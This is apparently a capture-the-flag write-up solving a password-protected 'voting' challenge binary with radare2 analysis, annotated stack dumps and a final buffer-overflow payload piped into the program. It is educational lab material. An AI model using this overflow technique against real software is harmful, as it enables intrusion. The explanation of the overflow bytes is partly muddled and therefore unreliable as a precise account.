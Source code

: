 ### voting

#### Running the program:
```
$ ./voting 
Government Secret Voting System

Password required
Please enter the DEAR password:
```
#### Goal of the program:
- Find a flag in the binary 

#### Limitations
The binary provided is a non-exact copy of the original binary running on a given host (e.g. `telnet http://example.com 3030`). 
In other words, finding the password in the provided binary does not solve the problem since it's different on the host.

#### Strings command
Using strings command, we can list all the strings in the binary, `strings ./voting`. By analyzing the result of that command,
we can guess that the password for the provided binary is `DEMO`. Again, as mentioned previously, this password does not give
much information since it will be different on the host.

#### Radare2
It's time for radare2. By analzying the instructions of the program, we can notice the following systems calls:
```
....
sym.imp.printf @ 0x004007c1 // Password required. Please enter the DEAR password:
sym.imp.memset @ 0x004007da // Allocate memory for storing the use input
sym.imp.__isoc99_scanf @ 0x004007f3 // Read input from the user, and store it @ rbp-0x400
sym.imp.strcpy @ 0x0040080c // Copy the input string to memory address @rbp-0x450
sym.imp.strcmp @ 0x00400820 // Compare the input with the expected password, remember that this is not helpful since we don't know the password on the host
...
```
Furthermore, we can notice the following instructions:
```
...
eax = [rbp-0x408] @ 0x0040070a // Store byte at rbp-0x408 into eax
cmp eax, 0x1 @ 0x00400710 // Check if this byte is equal to 0x00000001, if yes then print the **secret message**
...
eax = [rbp-0x410] @ 0x00400849 // Store byte at rbp-0x410 into eax
eax += 0x1 @ 0x0040084f // Add 1 to the value of eax
[rbp-0x410] = eax @ 0x00400852 // Store the new resulting byte into rbp-0x410
eax = [rbp-0x410] @ 0x00400858 // Store it back into eax
cmp eax, 0x2 @ 0x0040085e // Check if the calculated byte is equal to 0x00000002, if yes then this is the last chance for entering the password 
...
Then code goes back to the beginning of thise block of instructions. `@ 0x0040070a`
```
Clearly, what is desired is having the value of the eax register to be equal to 0x00000001 for the comparison @ 0x00400710 
to evaluate to true and get the flag. One method to satisfy the comparison, is to enter the right password, but again this 
method should be avoided since the password is unknown on the original binary. Another method is to find a way to alter 
this the value of the register from the input!

Taking a snapshot of the memory at after executing the strcpy system call mentioned in the previous block of instruction 
displays the following:
```
db 0x00400811
dc
Please enter the DEAR password:EXAMPLE!!!
px @rbp-0x450
- offset -       0 1  2 3  4 5  6 7  8 9  A B  C D  0123456789ABCD
0x7ffcfeb35a80  4558 414d 504c 4521 2121 0000 0000  EXAMPLE!!!....
0x7ffcfeb35a8e  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35a9c  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35aaa  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35ab8  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35ac6  0000 0000 0000 fc7f 0000 4558 414d  ..........EXAM
0x7ffcfeb35ad4  504c 4521 2121 0000 0000 0000 0000  PLE!!!........
0x7ffcfeb35ae2  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35af0  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35afe  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35b0c  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35b1a  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35b28  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35b36  0000 0000 0000 0000                 ........      
```

Let's annotate this memory snapshot:
```
- offset -       0 1  2 3  4 5  6 7  8 9  A B  C D  0123456789ABCD
                v Beginning of the copied input 
0x7ffcfeb35a80  4558 414d 504c 4521 2121 0000 0000  EXAMPLE!!!....
0x7ffcfeb35a8e  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35a9c  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35aaa  0000 0000 0000 0000 0000 0000 0000  ..............
                                    v cmp eax, 0x2 @ 0x0040085e, if this is greater than 0x00000002, then code exists
0x7ffcfeb35ab8  0000 0000 0000 0000 0000 0000 0000  ..............
                     | cmp eax, 0x1 @ 0x00400710, if this is 0x00000001 (also 0x1), then we get the flag 
                     v                   v Original input location
0x7ffcfeb35ac6  0000 0000 0000 fc7f 0000 4558 414d  ..........EXAM
0x7ffcfeb35ad4  504c 4521 2121 0000 0000 0000 0000  PLE!!!........
0x7ffcfeb35ae2  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35af0  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35afe  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35b0c  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35b1a  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35b28  0000 0000 0000 0000 0000 0000 0000  ..............
0x7ffcfeb35b36  0000 0000 0000 0000                 ........      
```

So now it's obvious that overflowing the input string can manipulates the value of the eax register when it's compared to 0x1 and will give us the flag. 

#### Answer
```
echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xff\xff\xff\xff\xff\xff\xff\xff\x01" | ./voting
```
The answer was not guessed, but it has reasoning which is constructed through a trial and error process. The first 64 `a`'s are required to fill the bytes just before overflowing the input buffer. The next 8 `f`'s (2 bytes of `f`) are needed because the counter that checks if too many failed attemps occurred increments that value by 1 just before comparing it to 0x2. By adding 1 to that value, the register eax which will hold the result will have the value of 0x00000000 satisfying the comparison condition. The remaining `f` bytes are needed to fill the memory until hitting the memory address used for revealing the flag. The \x01 is needed to alter the eax register value when compared to 0x01 which will result in revealing the flag.
